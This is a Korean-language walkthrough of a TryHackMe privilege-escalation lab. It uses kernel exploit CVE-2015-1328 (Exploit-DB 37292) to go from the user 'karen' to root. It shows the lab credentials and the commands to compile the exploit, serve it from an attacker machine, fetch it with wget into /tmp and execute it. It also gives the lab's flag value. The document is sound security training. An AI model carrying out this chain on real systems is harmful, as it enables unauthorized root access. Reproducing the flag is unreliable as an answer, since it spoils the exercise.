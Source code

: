 ## Privilege Escalation: Kernel Exploits
> TryHackMe에 커널 익스플로잇을 이용하여 권한 상승에 관한 실습을 했습니다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.42.60
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **커널 버전**: `Linux 3.13.0-24-generic`
- **실습 일자**: 2025-04-18

---

### 2. 실습 과정

#### 2.1 **SSH 접속**
- 타겟 머신에 SSH로 접근: karen 계정과 주어진 비밀번호로 로그인 하였다.

```bash
ssh karen@10.10.42.60
# Password1 입력 후 로그인
```

![SSH 연결 및 로그인](./screenshots/ssh_connect.png)

---

#### 2.2 **커널 버전 확인**

- 커널 버전 확인: uname -a 명령어로 커널 버전을 확인하고, 3.13.0-24-generic 버전이라는 것을 확인하였다.

```bash
uname -a
```
![uname -a 출력](./screenshots/uname.png)

- 커널 버전이 CVE-2015-1328에 취약하다는 사실을 구글링을 통해 확인하였다.

- Exploit-DB에서 해당 취약점에 대한 37292.c 소스코드를 다운로드하였다.
- 다운로드 링크 :[Exploit-DB - CVE-2015-1328](https://www.exploit-db.com/exploits/37292)

---

#### 2.3 **Kali에서 SSH 서버 시작** 

```bash
systemctl start ssh
```
![SSH 서비스 시작](./screenshots/start_ssh.png)

---
#### 2.4 **Exploit 다운로드 및 전송 (Windows → Kali)**  
- Windows → Kali로 소스 전송: Windows PowerShell의 `scp`를 통해 Kali로 소스 파일을 전송하였다. (실제 IP는 모자이크)

```bash powershell
scp D:/exploit_file/37292.c root@<MyRoot-ip>:/root
```
![SCP 전송](./screenshots/window_scp.png)

---
#### 2.5 **Exploit 정적 컴파일**  
- `gcc 37292.c -o exploit -static` 명령어를 사용하여 정적으로 컴파일 하였다.

```bash
gcc 37292.c -o exploit -static
```
![정적 컴파일](./screenshots/compile.png)

---
#### 2.6 **타겟 머신으로 Exploit 전송**  
- Kali에서 `python3 -m http.server 8000`으로 HTTP 서버를 열고, 타겟 머신에서 `wget`으로 exploit을 /tmp에 다운로드하였다.

```bash
python3 -m http.server 8000
wget http://<kali-ip>:8000/exploit -O /tmp/exploit
```
![wget 전송](./screenshots/http_server_wget.png)

---
#### 2.7 **실행 및 루트 획득** 

- `chmod +x exploit` 후 `./exploit`을 실행하여 루트 권한을 획득하였다. 후에 `find / -name flag1.txt`로 플래그 파일 경로를 찾고, `cat /home/matt/flag1.txt`로 내용 확인하였다.

```bash
chmod +x exploit
./exploit
id
find / -name flag1.txt
cat /home/matt/flag1.txt
```
![익스플로잇 실행 및 플래그 획득](./screenshots/exploit_flag.png)

---
### 3. 최종 결과
- 루트 쉘 획득 성공 (`uid=0(root)`)
- 플래그 위치: `/home/matt/flag1.txt`
- 플래그 내용: `THM-28392872729920`

---
### 4. 배운 점
> ✅ 이번 커널 익스플로잇 실습을 통해 단순한 버전 정보 수집(uname -a)만으로도 실제 취약점을 찾아 루트 권한까지 상승시킬 수 있다는 점을 체감할 수 있었다. 또한 정적 컴파일 및 원격 전송, 실행까지의 전체 흐름을 직접 다뤄보며 실전 감각을 키울 수 있었다. 시스템의 커널 보안 업데이트가 얼마나 중요한지 다시 한 번 느끼게 해주는 실습이였다.

